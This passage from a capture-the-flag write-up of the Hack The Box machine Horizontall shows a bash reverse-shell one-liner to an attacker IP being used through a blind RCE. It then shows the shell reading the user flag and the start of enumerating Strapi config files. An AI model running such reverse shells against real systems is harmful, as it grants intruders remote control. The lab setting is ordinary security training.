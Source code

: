 ```bash 

$> bash -c 'bash -i >& /dev/tcp/10.10.16.14/1337 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
<html>
<head><title>504 Gateway Time-out</title></head>                            
<body bgcolor="white">                                                      
<center><h1>504 Gateway Time-out</h1></center>                              
<hr><center>nginx/1.14.0 (Ubuntu)</center>                                  
</body>                                                                     
</html>                                                                     
                                                                            
$> 
```
![](https://raw.githubusercontent.com/H3X0S3/h3x0s3.github.io/main/assets/img/hackthebox/Horizontall/6.png)

we got shell and we can read user flag

```bash

strapi@horizontall:/home/developer$ ll
ll
total 108
drwxr-xr-x  8 developer developer  4096 Aug  2  2021 ./
drwxr-xr-x  3 root      root       4096 May 25  2021 ../
lrwxrwxrwx  1 root      root          9 Aug  2  2021 .bash_history -> /dev/null
-rw-r-----  1 developer developer   242 Jun  1  2021 .bash_logout
-rw-r-----  1 developer developer  3810 Jun  1  2021 .bashrc
drwx------  3 developer developer  4096 May 26  2021 .cache/
-rw-rw----  1 developer developer 58460 May 26  2021 composer-setup.php
drwx------  5 developer developer  4096 Jun  1  2021 .config/
drwx------  3 developer developer  4096 May 25  2021 .gnupg/
drwxrwx---  3 developer developer  4096 May 25  2021 .local/
drwx------ 12 developer developer  4096 May 26  2021 myproject/
-rw-r-----  1 developer developer   807 Apr  4  2018 .profile
drwxrwx---  2 developer developer  4096 Jun  4  2021 .ssh/
-r--r--r--  1 developer developer    33 Feb  5 09:40 user.txt
lrwxrwxrwx  1 root      root          9 Aug  2  2021 .viminfo -> /dev/null
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt 
2dd82###########################
strapi@horizontall:/home/developer$ 
```
# Shell as Root

## Enumeration

after searching for intersting file i get 

```bash

strapi@horizontall:~/myapi/config/environments$ cd development/
cd development/
strapi@horizontall:~/myapi/config/environments/development$ ll
ll
total 32
drwxr-xr-x 2 strapi strapi 4096 Jul 29  2021 ./
drwxr-xr-x 5 strapi strapi 4096 May 26  2021 ../
-rw-r--r-- 1 strapi strapi  135 May 26  2021 custom.json
-rw-rw-r-- 1 strapi strapi  351 May 26  2021 database.json
-rw-r--r-- 1 strapi strapi  439 May 26  2021 request.json
-rw-r--r-- 1 strapi strapi  164 May 26  2021 response.json
```